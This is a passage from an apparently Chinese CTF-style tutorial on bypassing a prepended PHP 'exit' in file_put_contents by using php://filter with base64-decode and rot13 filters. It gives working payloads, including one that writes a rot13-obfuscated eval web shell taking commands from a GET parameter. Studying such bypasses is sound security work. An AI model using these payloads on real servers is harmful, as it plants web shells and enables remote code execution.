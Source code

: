 >这种代码非常常见，在$content开头增加了exit进程，即使写入一句话也无法执行，遇到这种问题一般的解决方法便是利用伪协议`php://filter`，结合编码或相应的过滤器进行绕过；绕过原理便是将死亡或者杂糅代码分解成为php无法进行识别的代码

### 第一种情况

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    file_put_contents($file,"<?php exit();".$content);
}else{
    highlight_file(__FILE__);
}
```

**base64编码绕过：**
- 上面提到了绕过原理便是将死亡或者杂糅代码分解成为php无法进行识别的代码
- 使用base64编码，是因为base64只能打印64 (a-z0-9A-Z) 个可打印字符，PHP在解码base64时如果遇到了不在其中的字符，便会跳过这些字符，然后将合法字符组成一个新的字符串再进行解码
- 当$content被加上了`<?php exit; ?>`以后，可以使用`php://filter/convert.base64-decode`来对其解码，在解码的过程中，字符`<?;空格`等不符合base64编码的字符范围将会被忽略，所以最终被解码的字符只有phpexit和传入的其他字符
- 但是还要知道的是base64解码时是4个byte一组，上面正常解码的只有7个字符，所以再手动加上去1个字符a，凑齐8个字符

```php
Payload：

?file=php://filter/convert.base64-decode/resource=H3rmesk1t.php
POST DATA
content=aPD9waHAgcGhwaW5mbygpOyA/Pg==
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210527222810905.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**rot13编码绕过：**
利用rot13编码其实和base64编码绕过原理一样，只要成为php无法进行识别的代码，就不会执行
 前提是PHP没有开启short_open_tag(短标签)，默认情况下是没有开启的

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052722422210.png#pic_center)

```php
Payload：

<?php
$s = '<?php @eval($_GET[cmd]); ?>';
echo str_rot13($s)
?>
=>
<?cuc @riny($_TRG[pzq]); ?>

?file=php://filter/write=string.rot13/resource=test1.php
POST DATA
content=<?cuc @riny($_TRG[pzq]); ?>
```
